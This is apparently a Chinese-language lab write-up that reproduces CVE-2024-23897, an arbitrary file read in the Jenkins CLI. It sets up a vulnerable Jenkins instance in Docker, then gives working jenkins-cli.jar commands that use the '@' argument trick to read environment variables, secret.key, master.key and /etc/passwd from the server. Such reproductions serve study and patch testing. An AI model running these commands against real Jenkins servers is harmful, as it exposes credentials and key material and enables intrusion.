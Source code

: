 # Jenkins CLI 接口任意文件读取漏洞 CVE-2024-23897

## 漏洞描述

Jenkins是一个开源的自动化服务器。

Jenkins使用[args4j](https://github.com/kohsuke/args4j)来解析命令行输入，并支持通过HTTP、Websocket等协议远程传入命令行参数。args4j中用户可以通过`@`字符来加载任意文件，这导致攻击者可以通过该特性来读取服务器上的任意文件。

该漏洞影响Jenkins 2.441及以前的版本。

参考链接：

- [https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314](https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314)
- [https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw](https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw)

## 环境搭建

Vulhub 执行如下命令启动一个Jenkins server 2.441：

```
docker compose up -d
```

服务启动后，访问`http://your-vps-ip:8080/`即可查看到Jenkins登录页面，默认的管理员帐号密码为`admin`和`vulhub`。

![](images/Jenkins%20CLI%20接口任意文件读取漏洞%20CVE-2024-23897/image-20240226110809748.png)

## 漏洞复现

利用该漏洞可以直接使用官方提供的命令行客户端，在`http://your-vps-ip:8080/jnlpJars/jenkins-cli.jar`下载。

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，`JENKINS_HOME=/var/jenkins_home`：

```
java -jar jenkins-cli.jar -s http://your-vps-ip:8080/ -http help 1 "@/proc/self/environ"
```

![](images/Jenkins%20CLI%20接口任意文件读取漏洞%20CVE-2024-23897/image-20240226111050854.png)

可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```
java -jar jenkins-cli.jar -s http://your-vps-ip:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](images/Jenkins%20CLI%20接口任意文件读取漏洞%20CVE-2024-23897/image-20240226111129958.png)

```
java -jar jenkins-cli.jar -s http://your-vps-ip:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](images/Jenkins%20CLI%20接口任意文件读取漏洞%20CVE-2024-23897/image-20240226111213576.png)

因为开启了“匿名用户可读”选项，也可以直接使用`connect-node`命令读取完整文件内容：

```
java -jar jenkins-cli.jar -s http://your-vps-ip:8080/ -http connect-node "@/etc/passwd"
```

![](images/Jenkins%20CLI%20接口任意文件读取漏洞%20CVE-2024-23897/image-20240226111243331.png)
